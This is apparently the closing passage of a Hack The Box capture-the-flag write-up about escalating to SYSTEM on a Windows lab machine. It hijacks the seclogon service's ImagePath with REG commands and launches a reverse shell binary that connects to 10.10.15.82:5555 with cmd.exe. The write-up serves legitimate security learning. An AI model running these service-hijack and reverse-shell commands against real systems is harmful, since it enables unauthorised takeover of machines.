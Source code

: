 That means that Hector is able to change the `ImagePath` of any service of my choice, but which one? The service must be in a stopped state, run as LocalSystem with no dependencies and more importantly, Hector must have the permissions to start the service.

Long story short, I chose **Secondary Logon** service or `seclogon`. Here's why.

#### Stopped state

{% include image.html image_alt="d8a86a4f.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/d8a86a4f.png" %}

#### Run as LocalSystem with no dependencies

{% include image.html image_alt="11dbfdb5.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/11dbfdb5.png" %}

#### Hector is able to start the service

{% include image.html image_alt="5f2a7c42.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/5f2a7c42.png" %}

Basically, the security descriptor string says that Hector as an Authenticated User has the Read Property (RP) of the service object, i.e. Hector can start the Secondary Logon service.

### Getting `root.txt`

To change the `ImagePath` of the `seclogon` service, we can use the very versatile `REG.EXE` command.

```
> REG DELETE HKLM\SYSTEM\CURRENTCONTROLSET\Services\seclogon /v ImagePath /f
> REG ADD HKLM\SYSTEM\CURRENTCONTROLSET\Services\seclogon /v ImagePath /t REG_SZ /d "%WINDIR%\System32\cmd.exe /c start %WINDIR%\system32\spool\drivers\color\cute.exe 10.10.15.82 5555 -e cmd.exe" /f
> sc start seclogon
```

Time to claim the prize...

{% include image.html image_alt="64d82b24.png" image_src="/828bf584-bc2b-4d87-b20b-f083d3220fa1/64d82b24.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/218
[2]: https://www.hackthebox.eu/home/users/profile/31190
[3]: https://www.hackthebox.eu/
